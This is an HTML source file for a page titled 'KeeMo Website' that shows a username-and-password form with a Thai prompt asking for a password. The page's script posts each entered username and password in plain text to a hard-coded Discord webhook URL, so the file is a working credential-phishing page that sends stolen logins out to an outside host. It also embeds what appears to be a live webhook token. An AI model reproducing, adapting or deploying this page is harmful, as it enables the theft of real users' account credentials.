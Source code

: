 <!-- index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>KeeMo Website</title>
</head>
<body>
    <form id="registrationForm">
        <img src="https://ichef.bbci.co.uk/news/976/cpsprodpb/16620/production/_91408619_55df76d5-2245-41c1-8031-07a4da3f313f.jpg" alt="" height="100x100">
        <div>กรุณากรอกรหัสผ่าน</div>

        <label for="username">Username:</label>
        <input type="text" id="username" name="username" required><br>

        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required><br>

        <button type="button" onclick="submitForm()">Submit</button>
    </form>

    <script>
        function submitForm() {
            const username = document.getElementById('username').value;
            const password = document.getElementById('password').value;

            // เรียกฟังก์ชันเพื่อส่งข้อมูลไป Discord
            sendToDiscord(username, password);
        }

        function sendToDiscord(username, password) {
            const discordWebhookURL = 'https://discord.com/api/webhooks/1190348096325025934/6CsZjYaMYZDM5jmeVAP1r-M105c41sOKot7nt0iEtYcp57PZxIAtv89O_h239wUQFsWl'; // ใส่ Discord Webhook URL ที่คุณได้จาก Discord
            const data = {
                content: `---------------------------\nUsername: ${username}\nPassword: ${password}
\---------------------------`,
            };

            // ทำ HTTP POST request ไปยัง Discord API
            fetch(discordWebhookURL, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify(data),
            })
            .then(response => {
                if (!response.ok) {
                    throw new Error('Failed to send data to Discord.');
                }
                console.log('Data sent to Discord successfully.');
            })
            .catch(error => {
                console.error(error.message);
            });
        }
    </script>
</body>
</html>
